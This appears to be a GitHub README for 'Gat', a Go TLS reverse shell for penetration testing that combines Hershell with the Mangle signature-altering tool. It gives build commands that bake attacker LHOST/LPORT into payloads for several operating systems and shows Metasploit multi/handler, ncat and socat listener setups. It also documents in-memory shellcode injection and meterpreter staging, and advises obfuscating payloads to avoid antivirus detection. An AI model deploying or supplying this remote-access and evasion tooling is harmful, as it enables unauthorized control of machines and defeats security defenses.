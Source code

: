 # Gat
Golang Access Tool

Simple TCP reverse shell written in [Go](https://golang.org).
It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

###Note: I dont take credit for the majority of this code. This is a combination of two tools i use often in pentest with slight tweaks to change signatures and a script to automate the deployment of said tools.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Getting started & dependencies

Since this is a Go project, you will need to follow the [official documentation](https://golang.org/doc/install) to set up
your Golang environment.\
(with the `$GOPATH` environment variable).

```
git clone https://github.com/m1ddl3w4r3/Gat.git
cd Gat
go mod init Gat/Gat
go mod tidy
go build Mangle.go
```
## Usage
Gat will use 'MSF's Multi Handler' by default.(If listener selected)\
Other options are available such as:

*socat\
*ncat

These shells can be upgraded to meterpreter shells using the 'meterpreter' command in Gat.

##Gat.sh to make things easy.
***WARNING*** Change CN in make file to accurately reflect you Orgs Certificate or Hostname of HTTPS server.
```
./Gat.sh - Will show example and ascii art.
./Gat.sh [ Windows|Mac|Linux ] <LHOST> <LPORT> - Will generate given OS type payload.
./Gat.sh Cleanup - Will cleanup past deployments.
```

This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it
* ``meterpreter [tcp|http|https] IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp, http or https meterpreter agent from metasploit, and execute the shellcode in memory (Windows only at the moment)
* ``exit`` : exit gracefully


## Examples

### Basic usage



## Meterpreter staging
**WARNING**: this currently only work for the Windows platform.

The meterpreter staging currently supports the following payloads :

* `windows/x64/meterpreter/reverse_tcp`
* `windows/x64/meterpreter/reverse_http`
* `windows/x64/meterpreter/reverse_https`

To use the correct one, just specify the transport you want to use (tcp, http, https)
To use the meterpreter staging feature, just start your handler:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 127.0.0.1
set lport 8443
set HandlerSSLCert ./server.pem
exploit -j
```

Then, in `Gat`, use the `meterpreter` command:

```bash
[Gat]> meterpreter https 127.0.0.1:8443
```
A new meterpreter session should pop in `msfconsole`:

Here is an example with `ncat`:

```
ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
```

'socat' example (tested with version `1.7.3.2`):
```
socat `tty` OPENSSL-LISTEN:1234,reuseaddr,cert=server.pem,key=server.key,verify=0
```

## Manually create GAT for more custom setup.
***WARNING*** Generating this way will not apply mangle to the payload and could be caught by AV. \
(Make sure to obfuscate it if you do this.)

You will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=yourcn.com/O=YourOrg/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Predifined 32 bit target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make windows64 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Predifined 32 bit target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make linux64 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
# Predifined 32 bit target
$ make macos32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make macos64 LHOST=192.168.0.12 LPORT=1234
```

## Credits
Ronan Kervella `<r.kervella -at- sysdream -dot- com>` - For his [Hershell](https://github.com/lesnuages.hershell) repo.\
@Tyl0us - For his awesome work on [Mangle](https://github.com/optiv/mangle).
